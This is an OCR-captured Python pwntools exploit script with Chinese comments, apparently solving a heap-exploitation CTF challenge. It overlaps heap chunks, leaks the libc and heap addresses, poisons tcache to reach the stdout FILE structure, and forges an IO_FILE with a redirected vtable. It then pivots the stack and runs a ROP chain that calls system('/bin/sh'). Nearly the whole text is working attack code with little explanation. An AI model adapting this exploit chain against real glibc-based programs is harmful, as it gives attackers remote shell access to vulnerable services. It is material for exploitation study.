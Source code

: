 ```python
add(0x4f0, b"b"*0x488 + p64(0x431)) # 3
add(0x3b0,b"a"*8) # 5

free(4)

add(0x108, b"c"*0x100 + p64(0x550)) # 4(故意留出一个prev_size位)
add(0x400,b"a"*8) # 6
free(3)

add(0x10,b"a"*8) # 3，再分割,此时chunk6就被重叠为这个大堆块剩下的指针域(再多分配一点就要报错了),此时hex(0x500+0x550-0x20)=='0xa30'
show(6)

rc(14)
libc_base = uu64(rc(6)[-6:]) - (0x7f4426504ce0-0x7f44262ea000)

add(0x3f0,b"#"*0x3f)#8
add(0x60, b'&'*0x18 + p64(0x71)) #9
# add(0x60, b'&'*0x18)
add(0x3f0,b"a"*8)#10
free(6)

show(8)  #6和8就是同一个chunk
rc(14)
heap_addr = (uu64(rc(5)[-5:]) << 12) + 0xc30   #此时tcache的fd中是堆起始地址(没有后三位)，bk位就是key
pop_rdi = libc_base + 0x2a3e5
pop_rbp = libc_base + 0x2a2e0
leave_ret = libc_base + 0x4da83
system = libc_base + 0x050d70
binsh = libc_base + 0x1d8678
stdout_addr = libc_base + libc.sym['_IO_2_1_stdout_']
one=libc_base + 0x10d9cf


free(4)   #我们在上面已经伪造了一个0x90的fake_size
free(10)  #让上面那个chunk4越界修改这个chunk(因为堆块重叠后是物理相邻的)

add(0x60, b'a' * 0x48 + p64(0x401) + p64(((heap_addr + 0x470) >> 12) ^ (stdout_addr))[:-1]) #把4再申请回来

FILE = IO_FILE_plus_struct()
FILE.flags = 0
FILE._IO_read_ptr = pop_rbp
FILE._IO_read_end = heap_addr + 0x470 - 8 # 新的rbp
FILE._IO_read_base = leave_ret    #下一个rop指令，栈迁移完成
FILE._IO_write_base = 0
FILE._IO_write_ptr = 1
FILE._lock = heap_addr - 0xc30 + 0x10 # 随便设置一下锁
FILE.chain = leave_ret    #最后会调动这个指令
FILE._codecvt = stdout_addr
FILE._wide_data = stdout_addr - 0x48
FILE.vtable = libc.sym['_IO_wfile_jumps'] + libc_base - 0x20  #改变执行流

flag_addr = heap_addr + 0x470 + 0x100
payload = p64(pop_rdi) + p64(binsh) + p64(system) # can set on orw chain

add(0x3f0, payload)

add(0x3f0, bytes(FILE))

ia()
```

